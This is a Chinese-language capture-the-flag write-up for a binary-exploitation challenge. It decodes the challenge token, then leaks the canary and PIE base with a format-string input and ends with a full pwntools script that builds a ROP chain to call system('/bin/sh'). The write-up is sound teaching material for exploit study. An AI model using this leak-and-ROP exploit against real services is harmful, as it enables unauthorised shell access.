 题目开了PIE和Canary保护：
<img src=".\img\屏幕截图 2024-05-23 065009.png" alt="屏幕截图 2024-05-23 065009" style="zoom: 50%;" />

先本地运行附件，观察逻辑，首先需要在2s内输入token

<img src=".\img\屏幕截图 2024-05-23 064722.png" alt="屏幕截图 2024-05-23 064722" style="zoom:50%;" />

分析代码，题目先将输入字符串在encode函数先异或0xff再进行base32加密处理，并将处理后的字符串和和“XOW3JPFLXGCK7TWMX6GMZIGOTK7ZJIELS65KBHU3TOG2BT4ZUDEJPGVATS7JDPVNQ2QL7EM3UCHZNGUC”比较：

<img src=".\img\屏幕截图 2024-05-23 064451.png" alt="屏幕截图 2024-05-23 064451" style="zoom:50%;" />

此处可以打断点动态调试看内存的token，也可以直接用Cyberchef解密得到token：`DRKCTF{P13@s3_1e@k_thE_addr_0f_7he_cAnARy_@nd_pie}`

<img src=".\img\屏幕截图 2024-05-23 070232.png" alt="屏幕截图 2024-05-23 070232" style="zoom:50%;" />

使用eval计算式子

<img src=".\img\屏幕截图 2024-05-23 070532.png" alt="屏幕截图 2024-05-23 070532" style="zoom:50%;" />

根据token提示通过格式化字符串泄露Canary和PIE即可执行 `system("/bin/sh");`

<img src=".\img\屏幕截图 2024-05-23 061456.png" alt="屏幕截图 2024-05-23 061456" style="zoom:50%;" />

```py
from pwn import *

# p = remote("127.0.0.1",9999)
p = process('./attachment')
e = context.binary = ELF("./attachment")
context.update(arch='amd64', os='linux', log_level='debug')

p.recvuntil(b'token:')
payload = str('DRKCTF{P13@s3_1e@k_thE_addr_0f_7he_cAnARy_@nd_pie}')
p.sendline(payload)

p.recvline()
p.sendline(str(eval(p.recvline().decode().strip().split('=')[0].strip())))

p.recvuntil(b'gift:\n')
p.sendline(b'%13$p|%11$p|')

e.address = int(p.recvuntil(b'|').strip(b'|'), 16) - 0x2042
canary = int(p.recvuntil(b'|').strip(b'|'), 16)
log.info(f'PIE: {hex(e.address)}')
log.info(f'Canary: {hex(canary)}')

bin_sh = e.address + 0x3041
pop_rdi = e.address + 0x0000000000002072
payload = b'A' * 40
payload += p64(canary) + p64(0)
payload += p64(pop_rdi) + p64(bin_sh)
payload += p64(pop_rdi + 1)
payload += p64(e.plt['system'])
p.sendline(payload)
p.interactive()
```